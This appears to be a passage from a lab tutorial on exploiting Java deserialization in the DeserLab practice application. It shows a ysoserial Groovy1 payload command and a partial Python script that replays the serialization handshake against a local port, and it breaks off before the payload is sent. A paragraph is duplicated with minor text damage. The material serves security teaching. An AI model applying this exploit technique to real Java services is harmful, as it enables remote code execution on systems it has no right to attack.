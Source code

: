 The simple netcat listener/client was not enough to start a "serialized conversation" since lots of serialized objects were sent to the target.

You might also want to study the source code of the tool to see where certain parts of the serialized stream were generated and sent.



##### Injecting Serialized Payload

We will build a simple python script that will mimic the initial serialized handshake (0xaced0005) and then replace the serialized data in this case the string hash with the ysoserial payload and hope for code execution

Based on the output of Serialization Dumper, part of the communication must be mimicked using python; it his includes the handshake, two TC_BLOCKDATA structures and the username.



Based on the output of Serialization Dumper, part of the communication must be mimicked using python ; t his includes the handshake, two TC_BLOCKDATA structures and the username.

Further down our exploit the hashed string will be replaced with serialized data originating from the ysoserial tool .

The final payload is generated using ysoserial, in this case the Groovy library is chosen since it is is utilized by DeserLab. The Groovy library can be found in DeserLab’s directory named "lib".

```bash
java -jar ysoserial-all.jar Groovy1 "ping 127.0.0.1" > p.bin
```

As you can see the payload contains the java serialization signature in the beginning. Since the serialized conversation is already started, we should remove it from the payload. That’s why in the exploit you will see the ysoserial payload being shortened by removing the first 4 bytes.

![](./assets/14.png)







```python
import socket
ip = "127.0.0.1"
port = 6666
payload = "p.bin"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

data = '\xac \xed \x00 \x05' #Serialization handshake
s.sendall(data)

data = '\x77 \x04'
data2 = '\xf0 \x00 \xba \xaa' #TC_BLOCKDATA

s.sendall(data)
s.sendall(data2)

data = '\x77 \x02' #Protocol version
data2 = '\x01 \x01'
s.sendall(data)
s.sendall(data2)
```